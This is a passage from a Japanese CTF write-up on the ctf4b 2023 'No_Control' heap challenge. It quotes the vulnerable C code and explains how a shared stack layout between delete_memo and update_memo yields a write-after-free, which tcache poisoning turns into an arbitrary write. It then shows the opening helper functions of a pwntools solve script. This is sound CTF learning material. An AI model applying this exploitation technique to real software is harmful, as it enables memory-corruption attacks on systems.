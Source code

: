 ```c: src.c
        puts("something wrong");
    } else {
        printf("content: ");
        read(STDIN_FILENO, memo, MEMO_SIZE);
    }
    return;
}
```
問題はどうやってmemoに有効なアドレスを指定するか。ここでdelete_memo関数に注目する。
```c: src.c
void delete_memo() {
    int idx;
    char *memo;
    idx = ask_index();

    if (idx < 0 || LIST_SIZE <= idx) {
        puts("Invalid index");
        return;
    }

    memo = memos[idx];
    if (memo == NULL)
        return;
    free(memo);
    memos[idx] = NULL;

    return;

}
```
ディスアセンブルすると分かるのだが、delete_memoとupdate_memoは同じスタック配置になる。delete_memoを呼ぶと、delete_memo内のmemoにこれからfreeされるアドレスが入る。この後すぐに不正なインデックスを指定してupdate_memoを呼ぶと(スタック配置が同じなので)**update_memo内のmemoが今freeしたアドレスになる。** つまり、Write After Freeができる。これを利用してtcache-poisoningを行うことで任意のアドレスに任意の値を書き込むことが可能になる。

# exploit
https://github.com/RI5255/ctf-writeups/tree/master/2023/ctf4b/No_Control

## 前準備
繰り返し使う処理を関数としてまとめておく。
```python: solve.py
def create(idx : int):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b': ', str(idx).encode())

def read(idx : int):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b': ', str(idx).encode())
    return io.recvline()

def update(idx : int, data: bytes):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b': ', str(idx).encode())
    io.sendafter(b': ', data)

def delete(idx : int):
    io.sendlineafter(b'> ', b'4')
    io.sendlineafter(b': ', str(idx).encode())

def ex():
    io.sendlineafter(b'> ', b'5')
```
後で使うchunkを確保しておく。

[^1]: https://zenn.dev/ri5255/articles/dfc517df9467cd#fsop-in-libc2.34